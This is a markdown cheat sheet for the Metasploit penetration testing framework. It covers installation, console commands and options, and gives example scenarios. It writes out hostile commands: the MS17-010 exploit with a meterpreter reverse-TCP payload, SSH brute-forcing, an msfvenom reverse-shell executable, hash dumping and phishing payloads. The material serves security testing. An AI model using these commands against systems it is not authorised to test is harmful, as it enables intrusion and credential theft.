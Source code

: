 # Metasploit Framework 🔥💻🕵️‍♂️
#RED #Tool #TTFW

Metasploit Framework is an open-source penetration testing platform that enables security professionals to test system vulnerabilities, execute exploit code, and develop their own exploit tools.

**LINK TO TOOL DOCUMENTATION [HERE](https://www.metasploit.com/)**

The Metasploit Framework is one of the most widely used penetration testing tools in the cybersecurity industry. It provides a robust platform for identifying, exploiting, and validating vulnerabilities in various systems.

---
![Metasploit Framework](https://upload.wikimedia.org/wikipedia/commons/3/38/Metasploit_logo_and_wordmark.png)

---

### 🚀 Installing Metasploit Framework

#### 🔹 **LINUX** 🐧
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate | bash
```

#### 🔹 **Windows** 🏁
Download from: [Metasploit Framework](https://www.metasploit.com/download)

---

## 🧰 Common Commands

### Start Metasploit
```bash
msfconsole                
```

### Search for exploits related to Apache
```bash
search exploit apache     
```

### Use an exploit module
```bash
use exploit/windows/smb/ms17_010  
```

### Set target IP
```bash
set RHOST 192.168.1.100   
```

### Select payload
```bash
set PAYLOAD windows/meterpreter/reverse_tcp  
```

### Execute the exploit
```bash
exploit                   
```

### Interact with a compromised system
```bash
sessions -i 1             
```

### Additional Useful Commands:
```bash
show exploits             # Display available exploits
show payloads             # Display available payloads
show auxiliary            # Display auxiliary modules
show post                 # Display post-exploitation modules
use auxiliary/scanner/ssh/ssh_login  # Use SSH brute-force login module
set USERNAME admin        # Set a username for brute-force attack
set PASSWORD password123  # Set a password for brute-force attack
run                       # Execute the selected module
sessions -l               # List active sessions
sessions -k <session_id>  # Kill a specific session
background                # Move a session to background
exit                      # Exit Metasploit Framework
```

---

## ⚙️ Advanced Usage

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > shell.exe  # Generate a payload
use auxiliary/scanner/portscan/tcp   # Perform a TCP port scan
use post/windows/gather/hashdump     # Dump password hashes after exploitation
```

---

## 📋 Handy Options

| Option         | Description                                    |
|---------------|--------------------------------|
| `-x`          | Run exploit and auto-interact with session |
| `-j`          | Run as background job                    |
| `-z`          | Skip interactive prompt after exploit    |
| `show options`| Display required settings for a module  |
| `setg`        | Set a global variable for all modules   |
| `resource`    | Run multiple Metasploit commands from a script |
| `db_nmap`     | Use Nmap from within Metasploit for scanning |
| `route`       | Manage pivoting and route traffic through compromised hosts |
| `exploit -z`  | Run exploit without interaction        |
| `jobs -K`     | Kill all running background jobs       |

---

## 🌐 Example Scenarios

- **Penetration Test**: Gain access to a system using an exploit and test security controls.
- **Post-Exploitation**: Extract credentials, capture keystrokes, or pivot within the network.
- **Red Teaming**: Simulate a real-world attack scenario and evaluate security defenses.
- **Social Engineering**: Craft malicious payloads for phishing campaigns.

---

## 🚀 Pro Tips

- Always update Metasploit before running tests: `msfupdate` 🔄
- Use `searchsploit` for offline exploit database searching 📖
- Combine Metasploit with Nmap for reconnaissance 🔍
- Use `setg` to set global options across multiple modules 🌍
- Leverage `resource` scripts to automate tasks ⚡

---

## 📚 References
- [Metasploit Documentation](https://docs.metasploit.com/)
- [Offensive Security Metasploit Course](https://www.offsec.com/metasploit-unleashed/)

---

![VIDEO](https://www.youtube.com/watch?v=3Kq1MIfTWCE)
